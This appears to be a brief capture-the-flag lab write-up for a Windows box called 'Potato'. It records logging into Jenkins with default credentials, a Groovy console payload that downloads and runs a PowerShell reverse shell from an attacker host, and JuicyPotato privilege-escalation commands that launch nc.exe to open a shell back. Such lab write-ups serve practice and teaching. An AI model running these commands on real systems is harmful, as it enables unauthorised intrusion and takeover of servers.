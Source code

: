 ```yaml
---
title: Potato
created: '2020-07-04T17:00:13.835Z'
modified: '2020-07-05T13:26:10.252Z'
---
```


# Potato
- IP: `172.31.1.19`
- OS: `Windows`
## Enumeration
### Writeup

We find a Jenkins portal at port 8080 and `admin:admin` works as credentials
At `http://172.31.1.19:8080/script`, we can execute Groovy scripts.
```
def process = "PowerShell.exe -exec bypass -c \"(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.0.8/reverse.ps1')|iex\"".execute()
println "Found text ${process.text}"
```
We use [this oneliner ps1 revshell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)

`JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\ben\desktop\nc.exe -e cmd.exe 10.10.0.8 1234" -t *`

`JuicyPotato -l 1337 -p C:\Users\ben\.jenkins\reverse.exe -t *`
### Commands

